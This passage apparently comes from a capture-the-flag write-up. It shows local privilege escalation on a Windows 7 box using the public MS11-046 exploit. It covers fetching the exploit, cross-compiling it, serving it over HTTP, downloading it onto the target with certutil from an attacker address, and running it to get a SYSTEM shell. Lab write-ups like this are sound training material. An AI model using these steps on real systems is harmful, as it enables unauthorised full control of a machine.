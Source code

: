 - OS version : 6.1.7600 N/A Build 7600
- If patches are install - Hotfix(s): N/A
- And wich vulnerable Patch I should test

Searching for exploit with google I typed : "6.1.7600 N/A Build 7600 exploit" and the first link is this one [https://www.exploit-db.com/exploits/40564](https://www.exploit-db.com/exploits/40564).

It's working on Windows 7 and there is an explanation on how to compile it :

```
# Exploit notes:
#   Privileged shell execution:
#     - the SYSTEM shell will spawn within the invoking shell/process
#   Exploit compiling (Kali GNU/Linux Rolling 64-bit):
#     - # i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
#   Exploit prerequisites:
#     - low privilege access to the target OS
#     - target OS not patched (KB2503665, or any other related
#       patch, if applicable, not installed - check "Related security
#       vulnerabilities/patches")
#   Exploit test notes:
#     - let the target OS boot properly (if applicable)
#     - Windows 7 (SP0 and SP1) will BSOD on shutdown/reset
```

So I download it :

```
wget https://www.exploit-db.com/raw/40564 -o exploit.c
```

Then compile it as the notes say :

```
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

And I get the file "exploit.exe", just need to upload it on the box, so as before, I choose one of the method that I show earlier :

```
python -m SimpleHTTPServer
```

```
certutil.exe -urlcache -split -f http://10.10.14.4:8000/exploit.exe
```

Then I run it :

```
c:\Windows\Temp>exploit.exe
exploit.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
